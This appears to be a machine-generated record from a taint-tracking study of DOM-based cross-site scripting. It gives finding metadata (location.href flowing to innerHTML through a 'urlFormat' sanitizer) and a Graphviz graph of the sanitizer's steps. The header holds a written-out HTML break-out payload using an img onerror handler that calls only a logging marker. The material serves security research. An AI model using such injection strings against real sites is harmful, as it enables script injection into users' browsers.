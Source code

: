 // Finding: 4ace0ba8-99b6-4558-a0f1-94ec73534a4a
// Finding.url: https://example10.com/452863546/stock-photo-national-art-museum-catalonia-barcelona.html##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('1955d79cccd34160b991ecbd8cd4b7f6')><!--/*
// Finding.parentloc: https://example10.com/452863546/stock-photo-national-art-museum-catalonia-barcelona.html##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('1955d79cccd34160b991ecbd8cd4b7f6')><!--/*
// Finding.domain: example10.com
// Finding.base_domain: example10.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 2
// Sanitizer.name: urlFormat
// Sanitizer.location: https://webst.example10.com/_js/router.js?aeb125beff27870895eb - urlFormat:1:443881
// Finding.begin: 482
// Finding.end: 488
// Finding.original_uuid: 1653f87d-ed34-4206-9df7-b33916703cc3
// Finding.TwentyFiveMillionFlowsId: 1429751567
// Finding.script: https://webst.example10.com/_js/vendors.js?aeb125beff27870895eb
// Finding.line: 2
// Exploit.uuid: 1955d79c-ccd3-4160-b991-ecbd8cd4b7f6
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 25
// Exploit.end_taint_url: 92
// Exploit.replace_begin_url: 92
// Exploit.replace_end_url: 92
// Exploit.replace_begin_param: 481
// Exploit.replace_end_param: 481
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -167955694
// DepGraph.sanitizer_hash: 686335548

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: #"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="preg_replace"];
n5 [shape=box, label="RegExp: /\\/"];
n6 [shape=box, label="Lit: /"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="."];
n9 [shape=box, label="Lit: #"];
n10 [shape=ellipse, label="."];
n11 [shape=box, label="Lit: #"];
n12 [shape=ellipse, label="trim"];
n13 [shape=box, label="Var: x"];
n14 [shape=ellipse, label="regex_exec"];
n15 [shape=box, label="RegExp: /^([a-z0-9.+-]+:)/"];
n16 [shape=box, label="Lit: 0"];
n17 [shape=box, label="Var: x"];
n18 [shape=ellipse, label="strtolower"];
n19 [shape=box, label="Var: x"];
n20 [shape=ellipse, label="."];
n21 [shape=box, label="Lit: //st2.example10.com"];
n22 [shape=ellipse, label="."];
n23 [shape=box, label="Lit: /15113232/45286/i/1600/depositphotos_452863546-stock-photo-national-art-museum-catalonia-barcelona.jpg"];
n24 [shape=ellipse, label="preg_replace"];
n25 [shape=box, label="RegExp: /=((&)|$)/"];
n26 [shape=box, label="Lit: $2"];
n27 [shape=box, label="Var: x"];
n28 [shape=box, label="Var: x"];
n29 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n7 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n8 -> n9;
n8 -> n4;
n10 -> n8;
n10 -> n11;
n13 -> n10;
n12 -> n13;
n17 -> n12;
n14 -> n15;
n14 -> n16;
n14 -> n17;
n19 -> n14;
n18 -> n19;
n20 -> n18;
n20 -> n21;
n22 -> n20;
n22 -> n23;
n27 -> n22;
n24 -> n25;
n24 -> n26;
n24 -> n27;
n28 -> n24;
n29 -> n28;
}